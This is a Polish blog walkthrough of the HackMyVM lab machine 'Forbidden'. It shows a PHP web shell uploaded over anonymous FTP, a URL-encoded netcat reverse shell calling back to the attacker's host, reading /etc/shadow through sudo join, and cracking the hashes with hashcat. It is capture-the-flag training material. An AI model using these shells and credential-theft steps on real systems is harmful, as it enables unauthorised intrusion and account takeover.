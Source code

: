 ```yaml
---
title: "Forbidden - sML"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Forbidden
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Forbidden - sml
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Nazwa:|Forbidden|
|Autor:|[sML](https://hackmyvm.eu/profile/?user=sml)|
|Wypuszczony:|2020-10-09|
|Ściągnij:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Forbidden)|
|Poziom:|Średni|
|System:|Linux|
|Nauczysz się:|Reverse Engineering, sprytu|

# 01. Wstęp
**Forbidden** dosyć długo leżał u mnie na dysku, zapomniałem o niej. Dopiero wróciłem w roku 2024, ale dzięki temu wyszła jedna ciekawostka (zaplanowana lub nie). Maszynka jest dosyć prosta, mimo że ma status middle, jednak ma dużo króliczych nor i chyba dzięki temu jest bardzo ciekawa, mimo swojego wieku. 
{: .text-justify}
# 02. Co to za maszyna?
Po wstępnym wykryciu ip **Netdiscoverem**
{: .text-justify}
```bash
netdiscover -P -r 172.16.1.0 | grep "PCS Systemtechnik GmbH"
```
```bash
 172.16.1.161    08:00:27:3c:42:d7      1      60  PCS Systemtechnik GmbH
```
i skanowaniu **Nmapem**:
{: .text-justify}
```bash
db_nmap -A -p- 172.16.1.161
```
```bash
# host          port  proto  name  state  info
# ----          ----  -----  ----  -----  ----
# 172.16.1.161  21    tcp    ftp   open   vsftpd 3.0.3
# 172.16.1.161  80    tcp    http  open   nginx 1.14.2
```
widzimy, że mamy otwarte porty: 
{: .text-justify}
- **21/tcp** - FTP
- **80/tcp** - Apache WWW
Wchodząc na strone:
{: .text-justify}
![01](/assets/images/hacking/2024/01/01.png)
dostajemy dużo informacji, między innymi, że Marta jest najlepszym adminem na świecie (zobaczymy). Jest zadowolona, że nikt się jej nie włamie, bo _PHP_ wyłączyła (zobaczymy znowu).
{: .text-justify}
# 03. Co jest w środku?
## WWW
Najpierw przeskanujmy ten system programem **Forexbuster**:
{: .text-justify}
```bash
feroxbuster -x txt,php -u http://172.16.1.161
```
```bash
#  ___  ___  __   __     __      __         __   ___
# |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
# |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
# by Ben "epi" Risher 🤓                 ver: 2.10.1
# ───────────────────────────┬──────────────────────
#  🎯  Target Url            │ http://172.16.1.161
#  🚀  Threads               │ 50
#  📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
#  👌  Status Codes          │ All Status Codes!
#  💥  Timeout (secs)        │ 7
#  🦡  User-Agent            │ feroxbuster/2.10.1
#  💉  Config File           │ /etc/feroxbuster/ferox-config.toml
#  🔎  Extract Links         │ true
#  💲  Extensions            │ [txt, php]
#  🏁  HTTP methods          │ [GET]
#  🔃  Recursion Depth       │ 4
# ───────────────────────────┴──────────────────────
#  🏁  Press [ENTER] to use the Scan Management Menu™
# ──────────────────────────────────────────────────
# 404      GET        7l       12w      169c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
# 200      GET        8l       41w      241c http://172.16.1.161/
# 200      GET        1l        1w       10c http://172.16.1.161/robots.txt
# 200      GET        1l       12w       75c http://172.16.1.161/note.txt
# [####################] - 33s    90000/90000   0s      found:3       errors:0      
# [####################] - 33s    90000/90000   2744/s  http://172.16.1.161/          
```
Znalezione zostały pliki: _robots.txt_ i _note.txt_. W _note.txt_ jest taka informacja ```The extra-secured .jpg file contains my password but nobody can obtain it.```. To się przyda później.
{: .text-justify}
## FTP
Mamy dostęp do FTP-a za pomocą konta **anonymous**, do tego się okazuję, że możemy też wgrywać tam pliki. Pliki o rozszerzeniu _.php_ można tam wrzucić, ale niestety się nie uruchomią wchodząc przez stronę. Za to nasza najlepsza adminka na świecie chyba zapomniała, że są inne rozszerzenia typu _.php5_. Wrzućmy tam nasz shell, którego zawartość tak wygląda:
{: .text-justify}
```php
<?php
echo shell_exec($_REQUEST['cmd']);
?>
```
Na **FTP** zaś możemy zrobić coś takiego, po prostu wrzucić ten plik.
{: .text-justify}
```bash
ftp 172.16.1.161
```
```bash
# Connected to 172.16.1.161.
# 220 (vsFTPd 3.0.3)
# Name (172.16.1.161:szikers): anonymous
# 331 Please specify the password.
Password: 
# 230 Login successful.
# Remote system type is UNIX.
# Using binary mode to transfer files.
ftp> put shell.php5
# 229 Entering Extended Passive Mode (|||23644|)
# 150 Here comes the directory listing.
# drwxrwxrwx    2 0        0            4096 Jan 05 20:53 www
# 226 Directory send OK.
ftp> cd www
# 250 Directory successfully changed.
ftp> put shell.php5
```
# 04. Reverse Shell
Odpalamy nasz Reverse Shell:
{: .text-justify}
## Nasłuchiwacz
```bash
nc -lvp 12345
```
## Kod na stronie
Wklejamy przez przeglądarkę:
{: .text-justify}
```
172.16.1.161/shell.php5?cmd=php%20-r%20%22system%20%28%27nc%20-c%20%2Fbin%2Fbash%20172.16.1.89%2012345%27%29%3B%22%20
```
# 05. Konta użytkowników
## www
w katalogu ```/var/www/html``` mamy obrazek **TOPSECRETIMAGE.jpg**. Można go rozpakować, wydobyć z niego hasło, itd... jednak na nic się to nie przyda, bo hasłem do konta marta jest **Nazwa obrazka** :smiley:
{: .text-justify}
## marta
```bash
su - marta
```
Będąc na koncie _marta_ wydajemy komendę _sudo -l_. Wynikiem zaś jest:
{: .text-justify}
```bash
marta@forbidden:~$ sudo -l
Matching Defaults entries for marta on forbidden:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User marta may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/join
```
Niestety polecenie _sudo /usr/bin/join_ nie daje nam dostępu do konta **Roota**, jednak umożliwia przeczytanie pliku _/etc/shadow_. W nim zaś są zawarte hasła.
```bash
sudo  /usr/bin/join -a2 /dev/null /etc/shadow
```
## root
Poszliśmy na skróty, Nie wiem jak było w 2020 roku, ale teraz **Hashcat** ze słownika _rockyou.txt_ odszyfrował nam hasło użytkownika _peter_ i dodatkowo _root_ (to była ta ciekawostka). Nie musimy już przechodzić przez konto _peter_.
{: .text-justify}
```powershell
PS C:\temp\hashcat> .\hashcat.exe -O -a0 -m1800 .\hashe\forbidden.txt .\dict\rockyou.txt --show
$6$8nU2FdqnxRtT9mWF$9q7El.D7BDrlzNyYYPNqjTcwsQEsC7utrzszLgbe9V.3KqYSfx2XgqjIEeToP41TJTiZQOGVsdCzIAYHw5O.51:lalu******
$6$QAeWH9Et9PAJdYz/$/4VhburW9KoVTRY1Ry63wNEfr4rxwQGaRJ3kKW2nEAk0LcqjqZjy/m5rtaCi3VebNu7AaGFhQT4FBgbQVIyq81:bo******
```